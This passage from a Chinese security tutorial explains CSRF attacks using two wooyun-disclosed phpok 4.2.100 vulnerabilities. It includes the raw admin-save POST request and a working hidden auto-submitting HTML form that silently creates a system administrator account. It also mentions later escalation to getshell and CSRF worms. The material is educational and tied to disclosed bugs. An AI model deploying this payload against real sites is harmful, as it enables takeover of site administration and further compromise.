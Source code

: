 另外，CSRF蠕虫就是利用之前讲述的各种攻击方法，并且在攻击代码里添加了形成蠕虫传播条件的攻击向量，这一点会在本文的最后介绍。

0x05 基于CSRF攻击实例
===============

我们来看一下phpok的两个CSRF漏洞如何进行最大化的利用。这两个漏洞均来自乌云：

1.  [phpok csrf添加管理员+后台getshell](http://www.wooyun.org/bugs/wooyun-2010-091886)
2.  [phpok csrf成功getshell(二)](http://www.wooyun.org/bugs/wooyun-2010-091875)

（1）版本4.2.100：

在phpok该版本的后台提交如下POST请求可以添加管理员：

```
POST /phpok/admin.php?c=admin&f=save HTTP/1.1
Host: www.goal.com
…
Cookie: …
（空一行）
id=…&accont=…&pass=…&status=…&if_system=…

```

攻击者可以构造如下页面：

```
<html>
    <div style="display:none">
        <form action="http://localhost/phpok/admin.php?c=admin&f=save" id="poc" name="poc" method="post">
            <input type="hidden" name="id" value=""/>
            <input type="hidden" name="account" value=""/>
            <input type="hidden" name="pass" value=""/>
            <input type="hidden" name="email" value=""/>
            <input type="hidden" name="status" value=""/>
            <input type="hidden" name="if_system" value=""/>
            <input type="submit" name="up" value="submit"/>
        </form>
        <script>
            var t = document.poc;
            t.account.value="wooyun";
            t.pass.value="123456";
            t.status.value="1";
            t.if_system.value="1";
            document.poc.submit();
        </script>
    </div>
</html>

```

攻击发生之前，如图：

![](http://drops.javaweb.org/uploads/images/e78d4040a3c25d8678dd8a122d19e8c700da3a56.jpg)
